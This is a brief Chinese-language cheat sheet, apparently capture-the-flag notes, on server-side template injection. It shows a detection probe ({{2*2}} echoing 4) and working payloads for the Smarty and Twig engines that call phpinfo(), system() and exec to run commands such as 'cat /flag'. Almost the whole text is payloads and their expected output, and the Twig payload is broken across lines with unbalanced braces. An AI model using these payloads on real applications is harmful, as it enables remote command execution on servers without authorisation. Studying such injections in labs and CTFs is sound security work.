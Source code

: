 # SSTI_injection

---

**SSTI模板注入**

```
smarty模板引擎
twig模板引擎
```

**判断注入**

```
参数：user=1                              回显：1
参数：user={{2*2}}                        回显：4
```

**smarty模板引擎**

```
参数：user={if phpinfo()}{/if}            回显：phpinfo页面
参数：user={if system('cat /flag')}{/if}  回显：执行命令cat /flag
```

**twig模板引擎**

```
参数：user={{_self.env.registerUndefined\
Filter\
Callback("exec")}}{{_self.\
env.getFi\
lter("cat /flag")}
回显：执行命令cat /flag
```

